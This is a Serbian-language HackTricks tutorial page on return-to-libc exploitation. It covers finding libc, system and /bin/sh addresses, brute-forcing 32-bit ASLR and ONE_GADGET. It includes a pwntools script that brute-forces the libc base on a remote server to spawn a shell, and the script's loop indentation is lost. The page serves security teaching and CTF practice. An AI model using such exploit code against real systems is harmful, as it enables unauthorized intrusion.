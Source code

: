 # Ret2lib

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Osnovne informacije**

Suština **Ret2Libc** je preusmeravanje izvršnog toka ranjivog programa ka funkciji unutar deljene biblioteke (npr. **system**, **execve**, **strcpy**) umesto izvršavanja shell koda koji je dostavljen od strane napadača na steku. Napadač kreira payload koji modifikuje povratnu adresu na steku kako bi pokazivala ka željenoj funkciji biblioteke, dok istovremeno organizuje da svi neophodni argumenti budu ispravno postavljeni prema konvenciji pozivanja.

### **Primer koraka (simplifikovan)**

* Dobiti adresu funkcije koja se poziva (npr. system) i komandu koja se poziva (npr. /bin/sh)
* Generisati ROP lanac da se prosledi prvi argument koji pokazuje ka stringu komande i izvršni tok ka funkciji

## Pronalaženje adresa

* Pretpostavljajući da se `libc` koji se koristi nalazi na trenutnoj mašini, možete pronaći gde će biti učitan u memoriju sa:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Ako želite da proverite da li ASLR menja adresu libc-a, možete uraditi sledeće:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Znajući korišćenu libc biblioteku, takođe je moguće pronaći offset do `system` funkcije sa:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Znajući korišćenu libc biblioteku, takođe je moguće pronaći offset do funkcije stringa `/bin/sh` sa:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Korišćenje gdb-peda / GEF

Znajući koji se libc koristi, takođe je moguće koristiti Peda ili GEF da biste dobili adresu funkcije **system**, funkcije **exit** i stringa **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Korišćenje /proc/\<PID>/maps

Ako proces stvara **dečije procese** svaki put kada komunicirate s njim (mrežni server), pokušajte **pročitati** taj fajl (verovatno će vam biti potrebna administratorska prava).

Ovde možete pronaći **tačno gde je učitan libc** unutar procesa i **gde će biti učitan** za svako dete procesa.

![](<../../../../.gitbook/assets/image (95).png>)

U ovom slučaju učitan je na **0xb75dc000** (Ovo će biti bazna adresa libc-a)

## Nepoznat libc

Moguće je da **ne znate koji libc učitava binarni fajl** (jer se možda nalazi na serveru do kojeg nemate pristup). U tom slučaju možete iskoristiti ranjivost da **procurete neke adrese i pronađete koji libc** biblioteka se koristi:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

I možete pronaći šablon pwntools-a za ovo u:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Zaobilaženje ASLR-a u 32 bita

Ovi napadi brute-forcinga su **korisni samo za 32-bitne sisteme**.

* Ako je eksploatacija lokalna, možete pokušati brute-force baznu adresu libc-a (korisno za 32-bitne sisteme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ako napadate udaljeni server, možete pokušati **bruteforce-ovati adresu `libc` funkcije `usleep`**, prosleđujući kao argument 10 (na primer). Ako server u nekom trenutku **odgovori sa dodatnih 10 sekundi**, pronašli ste adresu ove funkcije.

## ONE\_GADGET

[**ONE\_GADGET**](https://github.com/david942j/one\_gadget) omogućava dobijanje shell-a umesto korišćenja **system** i **"/bin/sh". ONE\_GADGET** će pronaći unutar libc biblioteke način da se dobije shell koristeći samo jednu **ROP adresu**.\
Međutim, obično postoje neka ograničenja, najčešća i lako izbegnuta su poput `[rsp+0x30] == NULL`. Pošto kontrolišete vrednosti unutar **RSP**, samo treba poslati još nekoliko NULL vrednosti kako bi se ograničenje izbeglo.

![](<../../../../.gitbook/assets/image (615).png>)
```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```
## Primer koda x86 Ret2lib

U ovom primeru ASLR brute-force je integrisan u kod i ranjivi binarni fajl se nalazi na udaljenom serveru:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Primerak koda za Ret2lib

Proverite primer sa:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (ili puts)

Ovo omogućava **procurivanje informacija iz procesa** pozivanjem `printf`/`puts` sa određenim podacima postavljenim kao argument.

## Ret2printf

Ovo u osnovi znači zloupotrebu **Ret2lib-a kako bi se transformisao u ranjivost formatiranja stringova za `printf`** koristeći `ret2lib` za pozivanje printf sa vrednostima kako bi se iskoristio (zvuči beskorisno ali je moguće):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
